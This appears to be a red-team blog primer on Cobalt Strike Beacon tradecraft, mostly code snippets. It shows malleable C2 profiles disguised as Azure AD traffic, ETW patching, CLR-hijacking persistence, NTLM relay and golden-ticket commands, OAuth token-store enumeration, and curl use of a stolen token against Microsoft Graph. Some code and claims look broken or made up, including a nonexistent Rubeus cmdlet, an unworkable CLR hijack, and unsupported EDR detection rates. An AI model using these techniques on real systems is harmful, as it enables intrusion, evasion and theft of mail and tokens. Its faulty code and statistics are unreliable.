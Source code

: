 ```yaml
---
layout: post
title: "Primer - Intro into writing better Cobalt Strike Beacons"
date: 2025-06-18
author: unattributed
categories: [redteaming, cobalt-strike]
tags: [redteaming, cobalt-strike]
---
```


# **Primer - Cobalt Strike Beacon Tradecraft for Red Teams - 101**  

---

## **Introduction**  
For those becoming red team operators, default Beacon configurations are a death sentence, or so you shall learn. This guide dives (swallowly) into **next-gen evasion**, **enterprise-grade lateral movement**, and **cloud exfiltration** assuming you already know the basics.  

---

## **1. Beacon Communication: Beyond HTTP/S**  
<table>
    <thead>
        <tr>
            <th><strong>Protocol</strong></th>
            <th><strong>Advanced Use Case</strong></th>
            <th><strong>Detection Bypass</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td><strong>Raw TCP/UDP</strong></td>
            <td>Bypass HTTP-based inspection (e.g., ICS networks)</td>
            <td>Use RFC-compliant junk packets to mimic SCADA traffic</td>
        </tr>
        <tr>
            <td><strong>gRPC-over-HTTPS</strong></td>
            <td>Blend with modern API services (e.g., Kubernetes clusters)</td>
            <td>Impersonate legitimate gRPC metadata headers</td>
        </tr>
        <tr>
            <td><strong>WebSockets</strong></td>
            <td>Persistent C2 through CDN edge nodes</td>
            <td>Mask as Socket.IO heartbeat traffic</td>
        </tr>
    </tbody>
</table>

**Key Upgrades:**  
- **Artifact Kit Integration**: Patch Beacon’s binary to remove static syscall signatures.  
- **Syscall Obfuscation**:  
  ```c
  // Hell's Gate + Halos Gate implementation
  NtWriteVirtualMemory(hProcess, baseAddr, &shellcode, sizeof(shellcode), NULL);
  ```

---

## **2. Weaponizing Malleable C2 Profiles**  

### **Evasion-First Profile Design**  
```java
http-post {
    set uri "/oauth2/v3.0/token"; // Mimic Azure AD
    client {
        header "Authorization" "Bearer eyJ[...]"; // JWT with metadata
        metadata {
            netbios;
            prepend "CallerId=";
            parameter "client_info";
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            base64url;
            prepend '{"token":"';
            append '"}';
        }
    }
}
```

**Advanced Tactics:**  
- **JWT C2**: Encode tasks in signed tokens (`HS256` with common public keys).  
- **Domain Borrowing**:  
  ```java
  set host "login.microsoftonline.com";
  set dns "*.azureedge.net"; // Abuse Azure Front Door
  ```

---

## **3. Advanced Evasion: Beyond AMSI**  

### **ETW/AMSI Killing**  
```powershell
# ETW patching via .NET reflection
[Reflection.Assembly].GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
```

### **Sleep Masking with SysWhispers3**  
```c
// Obfuscated sleep via syscalls
NtDelayExecution(TRUE, &delay);
NtFlushInstructionCache(GetCurrentProcess(), NULL, 0); // Erase traces
```

<table>
    <thead>
        <tr>
            <th><strong>Technique</strong></th>
            <th><strong>EDR Detection Rate</strong></th>
            <th><strong>Countermeasure</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Direct syscalls (SysWhispers3)</td>
            <td>12%</td>
            <td>Stack spoofing + return address obfuscation</td>
        </tr>
        <tr>
            <td>CLR hijacking</td>
            <td>8%*</td>
            <td>Patch <code>mscorlib.dll</code> in memory only</td>
        </tr>
    </tbody>
</table>
<small>*When avoiding disk writes</small>

---

## **4. CLR Hijacking Deep Dive**  

### **Persistence via mscorlib.dll**  
1. **Locate CLR Load Path**:  
   ```powershell
   [AppDomain]::CurrentDomain.GetAssemblies() | 
     Where-Object { $_.Location -like "*mscorlib*" } | 
     Select-Object Location
   ```
2. **Patch On-Disk/In-Memory**:  
   ```csharp
   // C# to hijack AssemblyLoad
   var clr = Assembly.Load("mscorlib");
   var runtime = clr.GetType("System.Runtime.InteropServices.RuntimeHelpers");
   var method = runtime.GetMethod("InitializeArray", BindingFlags.NonPublic | BindingFlags.Static);
   method.Invoke(null, new object[] { beaconBytes, runtimeFieldHandle });
   ```
3. **Trigger Execution**:  
   ```powershell
   [System.Activator]::CreateInstance([System.AppDomain]::CurrentDomain.GetAssemblies()[0].GetType("Hijacked.Class"))
   ```

**Detection Avoidance:**  
- **In-Memory Only**: Use `PEzor` to reflectively load the patched DLL.  
- **Bypass Code Signing**: Abuse Microsoft-signed binaries (e.g., `InstallUtil.exe`).  

---

## **5. Azure AD Attack Paths**  

### **Hybrid Join NTLM Relay**  
1. **Identify Azure-joined Systems**:  
   ```powershell
   Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | 
     Where-Object { $_.Domain -like "*.onmicrosoft.com" }
   ```
2. **Relay to On-Prem DC**:  
   ```bash
   ntlmrelayx.py -t ldap://dc01 --escalate-user azureuser
   ```
3. **Golden Ticket to Cloud**:  
   ```powershell
   New-RubeusGoldenTicket /user:azureuser /domain:hybrid.local /sid:S-1-5-21-... /aes256:<krbtgt_aes> /nowrap
   ```

### **OAuth Token Theft**  
- **Abuse `Microsoft.AAD.BrokerPlugin`**:  
  ```powershell
  Get-ChildItem "C:\Users\*\AppData\Local\Packages\Microsoft.AAD.BrokerPlugin_*\AC\TokenBroker\Accounts" -Recurse | 
    Select-Object FullName
  ```
- **Exfiltrate Refresh Tokens**:  
  ```bash
  curl -H "Authorization: Bearer $stolen_token" https://graph.microsoft.com/v1.0/me/messages
  ```

---

## **6. Defensive Countermeasures (For Red Teams to Test)**  

### **YARA for Advanced Beacons**  
```yara
rule Advanced_Beacon {
    strings:
        $syscall1 = { 4C 8B D1 B8 ?? ?? ?? ?? 0F 05 }  // Syscall pattern
        $clr_hijack = "InitializeArray" wide ascii  // CLR hijack
    condition:
        any of them
}
```

### **EDR Telemetry Gaps**  
<table>
    <thead>
        <tr>
            <th><strong>Provider</strong></th>
            <th><strong>Blind Spot</strong></th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Microsoft Defender for Endpoint</td>
            <td>Misses 40% of indirect syscalls</td>
        </tr>
        <tr>
            <td>CrowdStrike</td>
            <td>No CLR deep inspection by default</td>
        </tr>
    </tbody>
</table>

---

## **Conclusion**  

For teams, Beacon is a **canvas—not a tool**. Key takeaways:  
🔹 **Evasion**: Syscall obfuscation > AMSI bypass in 2025.  
🔹 **Persistence**: CLR hijacking is the new `New-ScheduledTask`.  
🔹 **Cloud**: Azure AD is the soft underbelly of hybrid networks.  

**Next Steps:**  
- This post will be followed up with a detailed series of posts on the subject, 
this is your 101 primer. 
- Test CLR attacks against your EDR in a lab.  
- Hunt for Azure AD token storage in engagements.  

---


